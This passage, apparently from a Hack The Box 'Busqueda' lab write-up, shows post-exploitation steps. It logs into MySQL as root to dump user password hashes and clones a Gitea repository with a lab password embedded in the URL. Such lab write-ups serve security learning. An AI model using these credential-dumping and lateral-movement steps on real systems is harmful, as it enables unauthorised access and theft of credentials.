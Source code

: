 At this point, there are a few routes you can take to move further but also a few rabbit holes.

### MySQL
We now have access to the MySQL database, where we can export all the MySQL users.

```bash
svc@busqueda:~$ mysql -h 127.0.0.1 -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 146849
Server version: 8.0.31 MySQL Community Server - GPL

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from user;
```

In the user database we notice two accounts, along with their password hashes:
```
cody@gitea.searcher.htb
administrator@gitea.searcher.htb
```

This can be a rabbit hole as I wasted a lot of time trying to do [privilege escalation from MySQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation) or trying to crack the hashes.

### Git
Another route to progress was checking out the commits on the git repository we found earlier:
```bash
svc@busqueda:~$ git clone http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
Cloning into 'Searcher_site'...
remote: Enumerating objects: 5, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 5 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (5/5), done.
svc@busqueda:~$ cd Searcher_site/
svc@busqueda:~/Searcher_site$ git log
commit 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 (HEAD -> main, origin/main, origin/HEAD)
Author: administrator <administrator@gitea.searcher.htb>
Date:   Sun Dec 25 12:14:21 2022 +0000
```